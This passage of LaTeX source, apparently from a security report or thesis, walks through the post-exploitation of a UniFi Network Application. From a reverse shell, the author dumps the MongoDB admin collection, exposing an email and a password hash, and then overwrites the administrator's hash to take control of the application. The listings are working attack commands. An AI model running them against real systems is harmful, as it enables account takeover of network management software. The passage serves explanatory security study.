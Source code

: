 After getting the reverse shell prompt, we can first check if a MongoDB instance is running. We can run \texttt{ps aux | grep mongo}. The result will show port 27117 listening for incoming MongoDB connections. Then, we check which databases are available and get the contents of the \textit{admin} database.

\begin{lstlisting}[caption=Fetching Contents of MongoDB Admin Collection.,numbers=none,label={lst:unifi_mongodb_admin_contents}]
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.4.4
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.4.4
{
        "_id" : ObjectId("64750f87f19ea8014a2ceb6d"),
        "name" : "test_user",
        "email" : "admin@hotmail.com",
        "x_shadow" : "$6$msad4FLZ$WwZoWNYAGbcGY3bF8HVBQ.t.69dt/ogu1nsmeTjsorz4dBl3Q0Waoya35R.Gm0qEgPoVsUorIhVRVpoiG8cFo/",
        "time_created" : NumberLong(1685393287),
        "last_site_name" : "default"
}
\end{lstlisting}

Listing \ref{lst:unifi_mongodb_admin_contents} shows the existence of an administrator user named \textit{test\_user}, its email, and the password hash of the user, which can be seen in the \textit{x\_shadow} field. This is a SHA512 hash due to the \textit{\$6\$} characters at the start. As mentioned, cracking this hash to get the provided password would be possible. However, this could take a long time, so we opted for updating the current administrator's password. We first generate a SHA512 hash of the string ``mypassword'' using the command \texttt{mkpasswd -m sha-512 mypassword}. Lastly, the command on Listing \ref{lst:unifi_mongodb_update_admin_password} updates the administrator account password using the previously generated SHA 512 password and the \texttt{ObjectId} of the currently existing administrator.

\clearpage

\begin{lstlisting}[caption=Update Administrator User Account Password.,numbers=none,label={lst:unifi_mongodb_update_admin_password}]
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("64750f87f19ea8014a2ceb6d")},{$set:{"x_shadow":"$6$zsmtIX0rAM.G4P8a$TKt4eg15VC11zpQaCVS6nLHdOYOzlfjO5m3Tvle7rtc1SOvMRYTT0jBBnRc
CqY5lAOLDNst3xfGQdX99GtpD0."}})'
\end{lstlisting}

The result is that now the \textit{test\_user} account has the newly replaced password \textit{mypassword}, and we can enter UniFi's network application and completely control it.


